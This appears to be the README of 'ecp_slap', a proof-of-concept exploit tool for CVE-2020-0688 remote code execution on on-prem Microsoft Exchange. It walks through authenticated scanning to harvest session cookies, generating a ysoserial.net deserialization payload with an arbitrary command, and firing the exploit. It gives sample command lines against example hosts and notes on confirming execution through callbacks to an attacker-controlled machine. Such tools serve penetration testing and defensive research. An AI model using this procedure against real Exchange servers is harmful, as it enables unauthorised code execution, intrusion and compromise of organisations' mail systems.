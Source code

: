 # ecp_slap
This proof-of-concept for CVE-2020-0688  includes functions for the scanning and exploitation of a vulnerable on-prem Exchange instance.  

## Usage
**scan** - provide credentials and target information to obtain cookies required for exploitation and save them to 'cookies.txt'. Also checks for the exposure of the Exchange Control Panel (ECP) service associated with the targeted Exchange server, attempts authentication, and checks for a match of the appropriate VIEWSTATEGENERATOR value. If authentication is successful, output of the session cookie value for serialized payload will be observed.

**generate** -  provide session cookie value obtained from 'scan' function, as well as command for code execution. This will format your input for [ysoserial.net](https://github.com/pwntester/ysoserial.net)  to generate a serialized payload for code execution. Save the output of ysoserial to a file such as 'payload.txt'.

**exploit** - takes the input of your cookies file obtained while using the 'scan' function with successful authentication, and you payload file from ysoserial output. The exploit conducts a the appropriate authenticated request to trigger code execution against vulnerable instances of on-prem Exchange.
```
$./ecp_slap
scan - Scan an Exchange host and obtain cookies needed for exploitation:
./ecp_slap scan -t 10.1.1.5 -d corp.local -u admin -p badpassword 
./ecp_slap scan -t mail.corp.com -d CORP -u admin -p badpassword 

generate - Generate the ysoserial.net command for payload creation:
./ecp_slap generate -s [ASP.NET_SessionId] -c [COMMAND]
./ecp_slap generate -s 81c35474-6a73-4a1c-af45-b3985e7d7ad1 -c "echo test > C:/temp/test.txt"

exploit - Exploitation of a vulnerable Exchange server:
./ecp_slap exploit -t 192.168.5.22 -c cookies.txt -p payload.txt
./ecp_slap exploit -t mail.corp.com -c cookies.txt -p payload.txt

```
## Notes for Exploitation 

If you've verified the version of on-prem Exchange you are attempting to exploit:
1. has ECP authentication exposed from the internal or external perspective you are testing from 
2. your credentials have permission to access ECP
2. is a vulnerable build number

but you are still not able to verify successful code execution, consider executing simple commands to evaluate if the code execution is working, such as:
- HTTP GET request to your machine with an [lolbin](https://lolbas-project.github.io/)
- DNS query to an authoritative DNS server you own
- ping and monitor ICMP 






## To-Do

- scan - add functionality to account for the authenticated Exchange build number


## Credits

- Simon Zuckerbraun - for the awesome [write-up](https://www.thezdi.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys) explaining how this exploit works and how easy practical exploitation can be
- [actuated](https://github.com/actuated) - for the troubleshooting, brainstorming, and question answering while scripting this out
